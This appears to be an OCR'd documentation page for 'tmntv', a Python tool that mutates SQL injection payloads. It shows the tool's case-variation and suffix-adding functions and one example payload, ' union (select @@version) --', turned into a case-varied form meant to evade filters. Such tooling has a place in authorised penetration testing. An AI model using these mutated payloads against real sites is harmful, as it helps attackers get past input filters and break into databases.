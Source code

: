```
 # Populate dictionary with SQL keywords and equvalent SQL keyword values with case variation
 for _sqlKeyword in _sqlKeywordList:
    _sqlKeyWordDictionary[str(_sqlKeyword).rstrip()] = addCaseVarietionToKeyword(_sqlKeyword)

 # Populate list with SQL keywords for searching later on
 for _sqlKeywordKey, _sqlKeywordValue in _sqlKeyWordDictionary.iteritems():
    _searchList.append(_sqlKeywordKey)

 for _payloadLine in  _payloadList:
    for _sqlKeywordKey, _sqlKeywordValue  in _sqlKeyWordDictionary.iteritems():
        if re.search(_sqlKeywordKey.upper(),_payloadLine):
            _payloadLine = str(_payloadLine).replace(_sqlKeywordKey.upper(),_sqlKeywordValue)
            # Search for all keywords within the payload line
            if not searchPayloadLine(_searchList,_payloadLine):
                _mutatePayloadFileObj.write(_payloadLine)
            
        if re.search(_sqlKeywordKey.lower(),_payloadLine):
            _payloadLine = str(_payloadLine).replace(_sqlKeywordKey.lower(),_sqlKeywordValue)
            # Search for all keywords within the payload line
            if not searchPayloadLine(_searchList,_payloadLine):
                _mutatePayloadFileObj.write(_payloadLine)

 _mutatePayloadFileObj.close()

```

---

  * Example of Case Variation Adder:

Input payload file content: ' union (select @@version) --

Output payload file content: ' UnIoN (SeLeCt @@VeRsIoN) --

**Note**: The tmntv(version) tool will take as an input a file, it will then load SQL keywords from the CharContainer/sql\_Keyword\_Container.lst file and generate a payload file with SQL keywords having case variation.

This function adds suffixes such as );-- :

---

```

def suffixAdder(_payloadList): # Adding suffixes
 
 checkDirectoryExitstance() 
 
 currentTime = getTime()+'_'
 
 _mutatePayloadFile = currentTime+"suffixedPayloads.lst"
 _mutatePayloadFileObj = open(_mutatePayloadFile,"w")

 _suffixElementsFile = suffixFile
 _suffixElementObj = open(_suffixElementsFile,"r")
    
 _suffixList = _suffixElementObj.readlines()
 
 for _suffix in _suffixList: 
  for _payloadline in _payloadList:
   _mutatePayloadFileObj.write(str(_suffix).rstrip()+str(_payloadline).rstrip()+"\n")

 _mutatePayloadFileObj.close()

```

---